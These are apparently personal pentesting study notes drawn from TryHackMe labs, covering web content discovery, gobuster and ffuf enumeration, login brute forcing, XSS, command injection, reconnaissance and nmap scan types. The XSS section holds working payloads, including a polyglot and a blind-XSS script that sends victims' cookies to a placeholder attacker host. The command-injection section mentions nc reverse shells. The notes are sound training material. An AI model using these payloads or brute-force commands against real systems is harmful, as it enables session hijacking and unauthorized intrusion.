


# Pentesting & Off-Sec

# Content-Discovery

Three ways: Manual, OSINT, and Automated

## Manual:

- **Robots.txt** :  Tells search engines which pages they are and aren't allowed to show on their search engine results or ban specific search engines from crawling the website altogether.
- **Sitemap.xml** : The sitemap.xml file gives a list of every file the website owner wishes to be listed on a search engine.
- **Favicons** : Devs sometimes forget to change default favicons from frameworks to custom ones, thus revealing the framework used. OWASP  Favicon database : https://wiki.owasp.org/index.php/OWASP_favicon_database
- **HTTP Headers** : We can get info about the server and the language used.

## OSINT:

- Google Dorking:
    
    
    | **Filter** | **Example** | **Description** |
    | --- | --- | --- |
    | site | site:tryhackme.com | returns results only from the specified website address |
    | inurl | inurl:admin | returns results that have the specified word in the URL |
    | filetype | filetype:pdf | returns results which are a particular file extension |
    | intitle | intitle:admin | returns results that contain the specified word in the title |
- Wappalyzer:
It is an online tool and browser extension that helps identify what technologies a website uses, such as frameworks, Content Management Systems (CMS), payment processors and much more, and it can even find version numbers as well.
- Wayback Machine:
It is a historical archive of websites that dates back to the late 90s. You can search a domain name, and it will show you all the times the service scraped the web page and saved the contents. This service can help uncover old pages that may still be active on the current website.
- Github:
You can use GitHub's search feature to look for company names or website names to try and locate repositories belonging to your target. Once discovered, you may have access to source code, passwords or other content that you hadn't yet found.
- S3 Buckets:
S3 buckets are a storage service provided by Amazon AWS, allowing people to save files and even static website content in the cloud accessible over HTTP and HTTPS. The owner of the files can set access permissions to either make files public, private and even writable. Sometimes these access permissions are incorrectly set and inadvertently allow access to files that shouldn't be available to the public. The format of the S3 buckets is http(s)://{name}.s3.amazonaws.com where {name} is decided by the owner, such as [tryhackme-assets.s3.amazonaws.com](http://tryhackme-assets.s3.amazonaws.com/). S3 buckets can be discovered in many ways, such as finding the URLs in the website's page source, GitHub repositories, or even automating the process. One common automation method is by using the company name followed by common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc.

## Automated:

Wordlists : https://github.com/danielmiessler/SecLists

Tools such as ffuf, dirb, gobuster, etc.

**Using ffuf:**

```
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.196.99/FUZZ
```

**Using dirb:**

```
user@machine$ dirb http://10.10.196.99/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

**Using Gobuster:**

```
user@machine$ gobuster dir --url http://10.10.196.99/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

# Enumeration

Enumeration is the act of listing all the available resources, whether they are accessible or not. For example, Gobuster enumerates web directories.

## Brute Force

## Gobuster

Enter the following command: `gobuster --help`.

**Usage: `gobuster [command]`

Available Commands:
completion  Generate the autocompletion script for the specified shell
dir    -     Uses directory/file enumeration mode
dns    -     Uses DNS subdomain enumeration mode
fuzz    -    Uses fuzzing mode. Replaces the keyword FUZZ in the URL, Headers and the request body
gcs    -     Uses gcs bucket enumeration mode
help   -     Help about any command
s3    -      Uses aws bucket enumeration mode
tftp    -    Uses TFTP enumeration mode
version  -   shows the current version
vhost   -    Uses VHOST enumeration mode (you most probably want to use the IP address as the URL parameter)**

**Example:** 
`gobuster dir -u "http://www.example.thm/" -w /usr/share/wordlists/dirb/small.txt -t 64`

****-u : Specifies the URL

- The URL must contain the protocol used, in this case, HTTP. This is important and required. If you pass the wrong protocol, the scan will fail.
- In the host part of the URL, you can either fill in the IP or the HOSTNAME. However, it is important to mention that when using the IP, you may target a different website than intended. A web server can host multiple websites using one IP (this technique is also called virtual hosting). Use the HOSTNAME if you want to be sure.
- Gobuster does not enumerate recursively. So, if the results show a directory path you are interested in, you will have to enumerate that specific directory.

-w : Specifies the Wordlist

-t : Specifies the no. of threads

-r : Configures Gobuster to follow the redirect responses received from the sent requests. If a status code 301 was received, Gobuster will navigate to the redirect URL that is included in the response.

### Directory Enumeration Mode (dir)

To fine-tune the dir enumeration command.

| **Flag** | **Long Flag** | **Description** |
| --- | --- | --- |
| `-c` | `--cookies` | This flag configures a cookie to pass along each request, such as a session ID. |
| `-x` | `--extensions` | This flag specifies which file extensions you want to scan for. E.g., .php, .js |
| `-H` | `--headers` | This flag configures an entire header to pass along with each request. |
| `-k` | `--no-tls-validation` | This flag  skips the process that checks the certificate when https is used. It often happens for CTF events or test rooms like the ones on THM a self-signed certificate is used. This causes an error during the TLS check. |
| `-n` | `--no-status` | You can set this flag when you don’t want to see status codes of each response received. This helps keep the output on the screen clear. |
| `-P` | `password` | You can set this flag together with the --username flag to execute authenticated requests. This is handy when you have obtained credentials from a user. |
| `-s` | `--status-codes` | With this flag, you can configure which status codes of the received responses you want to display, such as 200, or a range like 300-400. |
| `-b` | `--status-codes-blacklist` | This flag allows you to configure which status codes of the received responses you don’t want to display. Configuring this flag overrides the -s flag. |
| `-U` | `--username` | You can set this flag together with the `--password` flag to execute authenticated requests. This is handy when you have obtained credentials from a user. |
| `-r` | `--followredirect` | This flags configures Gobuster to follow the redirect that it received as a response to the sent request. A HTTP redirect status code (e.g., 301 or 302) is used to redirect the client to a different URL. |

### DNS Enumeration Mode (dns)

This mode allows Gobuster to brute force subdomains. During a penetration test,  checking the subdomains of your target’s top domain is essential. Just because something is patched in the regular domain, it doesn't mean it is also patched in the subdomain. An opportunity to exploit a vulnerability in one of these subdomains may exist. For example, if TryHackMe owns *tryhackme.thm* and *mobile.tryhackme.thm*, there may be a vulnerability in *mobile.tryhackme.thm* that is not present in *tryhackme.thm*. That is why it is important to search for subdomains as well!

| **Flag** | **Long Flag** | **Description** |
| --- | --- | --- |
| `-c` | `--show-cname` | Show CNAME Records (cannot be used with the `-i` flag). |
| `-i` | `--show-ips` | Including this flag shows IP addresses that the domain and subdomains resolve to. |
| `-r` | `--resolver` | This flag configures a custom DNS server to use for resolving. |
| `-d` | `--domain` | This flag configures the domain you want to enumerate. |

Example: `gobuster dns -d example.thm -w /path/to/wordlist`

• `-d example.thm` sets the target to the *example.thm* domain.
• `-w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt` sets the wordlist to s*ubdomains-top1million-5000.txt*. Gobuster uses each entry of this list to construct a new DNS query. If the first entry of this list is 'all', the query would be *all.example.thm.*

### Vhost Enumeration Mode (vhost)

This mode allows Gobuster to brute force virtual hosts. Virtual hosts are different websites on the same machine. Sometimes, they look like subdomains, but don’t be deceived! Virtual hosts are IP-based and are running on the same server. Subdomains are set up in DNS. The  difference between `vhost` and `dns` mode is in the way Gobuster scans:

- `vhost` mode will navigate to the URL created by combining the configured HOSTNAME (-u flag) with an entry of a wordlist.
- `dns` mode will do a DNS lookup to the FQDN created by combining the configured domain name (-d flag) with an entry of a wordlist.

## OSINT

Go to [crt.sh](https://crt.sh/) and search for the domain name **tryhackme.com or iitm.ac.in**

This will list all the subdomains associated with the certificate. 

The purpose of Certificate Transparency logs is to stop malicious and accidentally made certificates from being used. We can use this service to our advantage to discover subdomains belonging to a domain, sites like [https://crt.sh](https://crt.sh/) offer a searchable database of certificates that shows current and historical results.

Search Engines: site:*.tryhackme.com 

We can automate using tools like Sublist3r.




## Virtual Hosts

Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header. We can utilize this host header by making changes to it and monitoring the response to see if we've discovered a new website.

Like with DNS Bruteforce, we can automate this process by using a wordlist of commonly used subdomains.

Using ffuf

```
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.14.116
```

The above command uses the -w switch to specify the wordlist we are going to use. The **-H** switch adds/edits a header (in this instance, the Host header), we have the **FUZZ** keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.

# Authentication Bypass

If you try entering the username **admin** and fill in the other form fields with fake information, you'll see we get the error **An account with this username already exists**. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

Username enumeration with ffuf

```
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.251.148/customers/signup -mr "username already exists"
```

`-w` selects the wordlist of usernames

`-X` specifies the request method, this will be a GET request by default, but it is a POST request in our example.

`-d` specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The 

`-H` is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` so the web server knows we are sending form data.

`-u` specifies the URL

`-mr` is the text on the page we are looking for to validate we've found a valid username.

Using the valid_usernames we generated in the previous task, we can now use this to attempt a brute force attack on the login page

Bruteforcing with ffuf

```
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.251.148/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the **FUZZ** keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. The multiple wordlists are again specified with the `-w` argument but separated with a comma.  For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

# XSS

Cross-site Scripting is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

Payload ——> Intention (Purpose) + Modifications (Change in the POC as to suit different situations)

## Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

**How to test for Reflected XSS:**

You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected

## Stored XSS

The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.

**How to test for Stored XSS:**

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

- Comments on a blog
- User profile information
- Website Listings

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads.

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected

## Blind XSS

Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

**How to test for Blind XSS:**

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

## Perfecting Payloads

- Filter for the word ‘`script`’:
    
    The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.
    
    When a word gets removed from a string, there's a helpful trick that you can try.
    
    **Original Payload:**
    
    `<sscriptcript>alert('THM');</sscriptcript>`
    
    **Text to be removed (by the filter):**
    
    `<sscriptcript>alert('THM');</sscriptcript>`
    
    **Final Payload (after passing the filter):**
    
    `<script>alert('THM');</script>`
    

- IMG tag attribute ‘`onload = “ ”`’
    
    `/images/cat.jpg" onload="alert('THM');`
    
    Will turn out to be
    
    
    

### **Polyglots**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 

`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e`

### For Blind XSS:

First, set up a listening server using Netcat: `nc -nlvp PORT_NUMBER`

`<script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

• The `fetch()` command makes an HTTP request.
• `btoa()` command base64 encodes the victim’s cookies.

# Command Injection

PAYLOADS: https://github.com/payloadbox/command-injection-payload-list

Command injection is also often known as “Remote Code Execution” (RCE) because of the ability to remotely execute code within an application. These vulnerabilities are often the most lucrative to an attacker because it means that the attacker can directly interact with the vulnerable system. For example, an attacker may read system or user files, data, and things of that nature.

For example, being able to abuse an application to perform the command `whoami` to list what user account the application is running will be an example of command injection.

This vulnerability exists because applications often use functions in programming languages such as PHP, Python and NodeJS to pass data to and to make system calls on the machine’s operating system. For example, taking input from a field and searching for an entry into a file.

Command Injection can be detected in mostly one of two ways:

1. Blind command injection
2. Verbose command injection

I have defined these two methods in the table below, where the two sections underneath will explain these in greater detail.

| **Method** | **Description** |
| --- | --- |
| Blind | This type of injection is where there is no direct output from the application when testing payloads. You will have to investigate the behaviours of the application to determine whether or not your payload was successful. |
| Verbose | This type of injection is where there is direct feedback from the application once you have tested a payload. For example, running the `whoami` command to see what user the application is running under. The web application will output the username on the page directly. |

### Detecting Blind Injection

For this type of command injection, we will need to use payloads that will cause some time delay. For example, the `ping` and `sleep` commands are significant payloads to test with. Using `ping` as an example, the application will hang for *x* seconds in relation to how many *pings* you have specified.

Another method of detecting blind command injection is by forcing some output. This can be done by using redirection operators such as `>`.  For example, we can tell the web application to execute commands such as `whoami` and redirect that to a file. We can then use a command such as `cat` to read this newly created file’s contents.

Testing command injection this way is often complicated and requires quite a bit of experimentation, significantly as the syntax for commands varies between Linux and Windows.

The `curl` command is a great way to test for command injection. This is because you are able to use `curl` to deliver data to and from an application in your payload. Take this code snippet below as an example, a simple curl payload to an application is possible for command injection.

`curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami`

### Detecting Verbose Injection

Detecting command injection this way is arguably the easiest method of the two. Verbose command injection is when the application gives you feedback or output as to what is happening or being executed.

For example, the output of commands such as `ping` or `whoami` is directly displayed on the web application.

Useful payloads

Linux

| **Payload** | **Description** |
| --- | --- |
| whoami | See what user the application is running under. |
| ls | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
| ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
| sleep | This is another useful payload in testing an application for blind command injection, where the machine does not have `ping` installed. |
| nc | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |

Windows

| **Payload** | **Description** |
| --- | --- |
| whoami | See what user the application is running under. |
| dir | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
| ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
| timeout | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed. |

# SQL injection

# Network Security

# Reconnaissance

Reconnaissance (recon) can be defined as a preliminary survey to gather information about a target. It is the first step in [The Unified Kill Chain](https://www.unifiedkillchain.com/) to gain an initial foothold on a system. We divide reconnaissance into:

1. Passive Reconnaissance
2. Active Reconnaissance

In passive reconnaissance, you rely on publicly available knowledge. It is the knowledge that you can access from publicly available resources without directly engaging with the target. 

Passive reconnaissance activities include many activities, for instance:

- Looking up DNS records of a domain from a public DNS server.
- Checking job ads related to the target website.
- Reading news articles about the target company.

Active reconnaissance, on the other hand, cannot be achieved so discreetly. It requires direct engagement with the target.

Examples of active reconnaissance activities include:

- Connecting to one of the company servers such as HTTP, FTP, and SMTP.
- Calling the company in an attempt to get information (social engineering).
- Entering company premises pretending to be a repairman.

## Passive Recon

### WHOIS

WHOIS is a request and response protocol that follows the [RFC 3912](https://www.ietf.org/rfc/rfc3912.txt) specification. A WHOIS server listens on TCP port 43 for incoming requests. The domain registrar is responsible for maintaining the WHOIS records for the domain names it is leasing. The WHOIS server replies with various information related to the domain requested. Of particular interest, we can learn:

- Registrar: Via which registrar was the domain name registered?
- Contact info of registrant: Name, organization, address, phone, among other things. (unless made hidden via a privacy service)
- Creation, update, and expiration dates: When was the domain name first registered? When was it last updated? And when does it need to be renewed?
- Name Server: Which server to ask to resolve the domain name?

### NSLOOKUP

Find the IP address of a domain name using `nslookup`, which stands for Name Server Look Up. You need to issue the command `nslookup DOMAIN_NAME`, for example, `nslookup tryhackme.com`. Or, more generally, you can use `nslookup OPTIONS DOMAIN_NAME SERVER`. These three main parameters are:

- OPTIONS contains the query type as shown in the table below. For instance, you can use `A` for IPv4 addresses and `AAAA` for IPv6 addresses.
- DOMAIN_NAME is the domain name you are looking up.
- SERVER is the DNS server that you want to query. You can choose any local or public DNS server to query. Cloudflare offers `1.1.1.1` and `1.0.0.1`, Google offers `8.8.8.8` and `8.8.4.4`, and Quad9 offers `9.9.9.9` and `149.112.112.112`. There are many [more public DNS servers](https://duckduckgo.com/?q=public+dns) that you can choose from if you want alternatives to your ISP’s DNS servers.

Let’s say you want to learn about the email servers and configurations for a particular domain. You can issue `nslookup -type=MX tryhackme.com`. Here is an example:

Terminal

```
user@TryHackMe$ nslookup -type=MX tryhackme.comServer:		127.0.0.53
Address:	127.0.0.53#53

Non-authoritative answer:
tryhackme.com	mail exchanger = 5 alt1.aspmx.l.google.com.
tryhackme.com	mail exchanger = 1 aspmx.l.google.com.
tryhackme.com	mail exchanger = 10 alt4.aspmx.l.google.com.
tryhackme.com	mail exchanger = 10 alt3.aspmx.l.google.com.
tryhackme.com	mail exchanger = 5 alt2.aspmx.l.google.com.
```

We can see that tryhackme.com’s current email configuration uses Google. Since MX is looking up the Mail Exchange servers, we notice that when a mail server tries to deliver email `@tryhackme.com`, it will try to connect to the `aspmx.l.google.com`, which has order 1. If it is busy or unavailable, the mail server will attempt to connect to the next in order mail exchange servers, `alt1.aspmx.l.google.com` or `alt2.aspmx.l.google.com`.

Google provides the listed mail servers; therefore, we should not expect the mail servers to be running a vulnerable server version. However, in other cases, we might find mail servers that are not adequately secured or patched.

### DIG

For more advanced DNS queries and additional functionality, you can use `dig`, the acronym for “Domain Information Groper”. 

We can use `dig DOMAIN_NAME`, but to specify the record type, we would use `dig DOMAIN_NAME TYPE`. Optionally, we can select the server we want to query using `dig @SERVER DOMAIN_NAME TYPE`.

- SERVER is the DNS server that you want to query.
- DOMAIN_NAME is the domain name you are looking up.
- TYPE contains the DNS record type, as shown in the table provided earlier.

Terminal

```
user@TryHackMe$ dig tryhackme.com MX; <<>> DiG 9.16.19-RH <<>> tryhackme.com MX
;; global options: +cmd
;; Got answer:
;; ->>HEADER<

```

A quick comparison between the output of `nslookup` and `dig` shows that `dig` returned more information, such as the TTL (Time To Live) by default. If you want to query a `1.1.1.1` DNS server, you can execute `dig @1.1.1.1 tryhackme.com MX`.

### DNSDumpster

Online service that offers detailed answers to DNS queries. Gets a list of DNS servers for the domain we are looking for. Also lists down any other subdomains. Resolves them to IP addresses. We can also see MX records and TXT records.

### SHODAN.IO

Search engine for things connected on the internet.

Via this Shodan.io search result, we can learn several things related to our search, such as:

- IP address
- hosting company
- geographic location
- server type and version

You may also try searching for the IP addresses you have obtained from DNS lookups.

## Active Recon

It is essential to remember not to engage in active reconnaissance work before getting signed legal authorization from the client.

PING

TRACEROUTE

TELNET

The default port used by telnet is 23. However, the telnet client, with its simplicity, can be used for other purposes. Knowing that telnet client relies on the TCP protocol, you can use Telnet to connect to any service and grab its banner. Using `telnet 10.10.241.156 PORT`, you can connect to any service running on TCP and even exchange a few messages unless it uses encryption.

NETCAT

Netcat or simply nc has different applications that can be of great value to a pentester. Netcat supports both TCP and UDP protocols. It can function as a client that connects to a listening port; alternatively, it can act as a server that listens on a port of your choice. Hence, it is a convenient tool that you can use as a simple client or server over TCP or UDP.

To connect to a server: `nc 10.10.241.156 PORT`

To open and listen on a port: `nc -vnlp PORT`  # port numbers less than 1024 require root privileges to listen on.

| **option** | **meaning** |
| --- | --- |
| -l | Listen mode |
| -p | Specify the Port number |
| -n | Numeric only; no resolution of hostnames via DNS |
| -v | Verbose output (optional, yet useful to discover any bugs) |

# Live Host Discovery

When we want to target a network, we want to find an efficient tool to help us handle repetitive tasks and answer the following questions:

1. Which systems are up?
2. What services are running on these systems?

## NMAP

Different approaches that Nmap uses to discover live hosts:

1. ARP scan: This scan uses ARP requests to discover live hosts
2. ICMP scan: This scan uses ICMP requests to identify live hosts
3. TCP/UDP ping scan: This scan sends packets to TCP ports and UDP ports to determine live hosts.

Nmap is an industry-standard tool for mapping networks, identifying live hosts, and discovering running services. Nmap’s scripting engine can further extend its functionality, from fingerprinting services to exploiting vulnerabilities.

As part of active reconnaissance, we want to discover more information about a group of hosts or about a subnet. If you are connected to the same subnet, you would expect your scanner to rely on ARP (Address Resolution Protocol) queries to discover live hosts. An ARP query aims to get the hardware address (MAC address) so that communication over the link-layer becomes possible; however, we can use this to infer that the host is online. 

If you are in the same subnet, you can use ARP only to discover the devices within that subnet (10.1.100.0/24). Suppose you are connected to a subnet different from the subnet of the target system(s). In that case, all packets generated by your scanner will be routed via the default gateway (router) to reach the systems on another subnet; however, the ARP queries won’t be routed and hence cannot cross the subnet router. ARP is a link-layer protocol, and ARP packets are bound to their subnet.

Generally speaking, you can provide a list, a range, or a subnet. Examples of target specification are:

- list: `MACHINE_IP scanme.nmap.org example.com` will scan 3 IP addresses.
- range: `10.11.12.15-20` will scan 6 IP addresses: `10.11.12.15`, `10.11.12.16`,… and `10.11.12.20`.
- subnet: `MACHINE_IP/30` will scan 4 IP addresses.

You can also provide a file as input for your list of targets, `nmap -iL list_of_hosts.txt`.

If you want to check the list of hosts that Nmap will scan, you can use `nmap -sL TARGETS`. This option will give you a detailed list of the hosts that Nmap will scan without scanning them; however, Nmap will attempt a reverse-DNS resolution on all the targets to obtain their names. Names might reveal various information to the pentester. (If you don’t want Nmap to the DNS server, you can add `-n`.)

We will leverage the protocols to discover the live hosts. Starting from bottom to top, we can use:

- ARP from Link Layer
- ICMP from Network Layer
- TCP from Transport Layer
- UDP from Transport Layer

Although TCP and UDP are transport layers, for network scanning purposes, a scanner can send a specially-crafted packet to common TCP or UDP ports to check whether the target will respond. This method is efficient, especially when ICMP Echo is blocked

There are various ways to discover online hosts. When no host discovery options are provided, Nmap follows the following approaches to discover live hosts:

1. When a *privileged* user tries to scan targets on a local network (Ethernet), Nmap uses *ARP requests*. A privileged user is `root` or a user who belongs to `sudoers` and can run `sudo`.
2. When a *privileged* user tries to scan targets outside the local network, Nmap uses ICMP echo requests, TCP ACK (Acknowledge) to port 80, TCP SYN (Synchronize) to port 443, and ICMP timestamp request.
3. When an *unprivileged* user tries to scan targets outside the local network, Nmap resorts to a TCP 3-way handshake by sending SYN packets to ports 80 and 443.

Using ARP

If you want Nmap only to perform an ARP scan without port-scanning, you can use `nmap -PR -sn TARGETS`, where `-PR` indicates that you only want an ARP scan.

Talking about ARP scans, we should mention a scanner built around ARP queries: `arp-scan`; it provides many options to customize your scan. One popular choice is `arp-scan --localnet` or simply `arp-scan -l`. This command will send ARP queries to all valid IP addresses on your local networks. Moreover, if your system has more than one interface and you are interested in discovering the live hosts on one of them, you can specify the interface using `-I`. For instance, `sudo arp-scan -I eth0 -l` will send ARP queries for all valid IP addresses on the `eth0` interface.

Using ICMP

We can ping every IP address on a target network and see who would respond to our `ping` (ICMP Type 8/Echo) requests with a ping reply (ICMP Type 0). Simple, isn’t it? Although this would be the most straightforward approach, it is not always reliable. Many firewalls block ICMP echo; new versions of MS Windows are configured with a host firewall that blocks ICMP echo requests by default.

To use ICMP echo request to discover live hosts, add the option `-PE`. (Remember to add `-sn` if you don’t want to follow that with a port scan.) As shown in the following figure, an ICMP echo scan works by sending an ICMP echo request and expects the target to reply with an ICMP echo reply if it is online. `nmap -PE -sn TARGETS`

Because ICMP echo requests tend to be blocked, you might also consider ICMP Timestamp or ICMP Address Mask requests to tell if a system is online. Nmap uses timestamp request (ICMP Type 13) and checks whether it will get a Timestamp reply (ICMP Type 14). Adding the `-PP` option tells Nmap to use ICMP timestamp requests.  `nmap -PP -sn TARGETS`

Similarly, Nmap uses address mask queries (ICMP Type 17) and checks whether it gets an address mask reply (ICMP Type 18). This scan can be enabled with the option `-PM`.
`nmap -PM -sn TARGETS`

A firewall might ban certain kind of ICMP packets. Therefore, it is essential to learn multiple approaches to achieve the same result. If one type of packet is being blocked, we can always choose another to discover the target network and services.

Using TCP & UDP

**TCP Syn Ping**: 

Checks for a three-way tcp handshake (SYN, SYN/ACK, ACK). A closed port results in a RST response. If you want Nmap to use TCP SYN ping, you can do so via the option `-PS` followed by the port number, range, list, or a combination of them. `nmap -PS -sn TARGETS` By default port 80 is used.

**TCP ACK Ping:**

You must be running Nmap as a privileged user to be able to accomplish this. If you try it as an unprivileged user, Nmap will attempt a 3-way handshake.

By default, port 80 is used. The syntax is similar to TCP SYN ping. `-PA` should be followed by a port number, range, list, or a combination of them. `nmap -PA -sn TARGETS`

**UDP Ping:**

Contrary to TCP SYN ping, sending a UDP packet to an open port is not expected to lead to any reply. However, if we send a UDP packet to a closed UDP port, we expect to get an ICMP port unreachable packet; this indicates that the target system is not up and unavailable.

Nmap uses `-PU` for UDP ping. `nmap -PU -sn TARGETS`

Using Reverse DNS lookup

Nmap’s default behaviour is to use reverse-DNS online hosts. Because the hostnames can reveal a lot, this can be a helpful step. However, if you don’t want to send such DNS queries, you use `-n` to skip this step.

By default, Nmap will look up online hosts; however, you can use the option `-R` to query the DNS server even for offline hosts. If you want to use a specific DNS server, you can add the `--dns-servers DNS_SERVER` option.

| **Option** | **Purpose** |
| --- | --- |
| `-n` | no DNS lookup |
| `-R` | reverse-DNS lookup for all hosts |
| `-sn` | host discovery only |

# Advanced Port Scans

**Null Scan**

The null scan does not set any flag; all six flag bits are set to zero. You can choose this scan using the `-sN` option. A TCP packet with no flags set will not trigger any response when it reaches an open port, as shown in the figure below. Therefore, from Nmap’s perspective, a lack of reply in a null scan indicates that either the port is open or a firewall is blocking the packet. However, we expect the target server to respond with an RST packet if the port is closed.

**FIN Scan**

The FIN scan sends a TCP packet with the FIN flag set. You can choose this scan type using the `-sF` option. Similarly, no response will be sent if the TCP port is open. Again, Nmap cannot be sure if the port is open or if a firewall is blocking the traffic related to this TCP port. However, the target system should respond with an RST if the port is closed. Consequently, we will be able to know which ports are closed and use this knowledge to infer the ports that are open or filtered.

**XMAS Scan**

The Xmas scan gets its name after Christmas tree lights. An Xmas scan sets the FIN, PSH, and URG flags simultaneously. You can select Xmas scan with the option `-sX`.

Like the Null scan and FIN scan, if an RST packet is received, it means that the port is closed. Otherwise, it will be reported as open|filtered.

One scenario where these three scan types can be efficient is when scanning a target behind a stateless (non-stateful) firewall. A stateless firewall will check if the incoming packet has the SYN flag set to detect a connection attempt. Using a flag combination that does not match the SYN packet makes it possible to deceive the firewall and reach the system behind it. However, a stateful firewall will practically block all such crafted packets and render this kind of scan useless.

**Maimon Scan**

Uriel Maimon first described this scan in 1996. In this scan, the FIN and ACK bits are set. The target should send an RST packet as a response. However, certain BSD-derived systems drop the packet if it is an open port exposing the open ports. This scan won’t work on most targets encountered in modern networks. To select this scan type, use the `-sM` option.

**TCP ACK Scan**

As the name implies, an ACK scan will send a TCP packet with the ACK flag set. Use the  `-sA` option to choose this scan. The target would respond to the ACK with RST regardless of the state of the port. This behaviour happens because a TCP packet with the ACK flag set should be sent only in response to a received TCP packet to acknowledge the receipt of some data, unlike our case. Hence, this scan won’t tell us whether the target port is open in a simple setup.

This kind of scan would be helpful if there is a firewall in front of the target. Consequently, based on which ACK packets resulted in responses, you will learn which ports were not blocked by the firewall. In other words, this type of scan is more suitable to discover firewall rule sets and configuration.

**Window Scan**

The TCP window scan is almost the same as the ACK scan; however, it examines the TCP Window field of the RST packets returned. On specific systems, this can reveal that the port is open. You can select this scan type with the option `-sW`. We expect to get an RST packet in reply to our “uninvited” ACK packets, regardless of whether the port is open or closed.

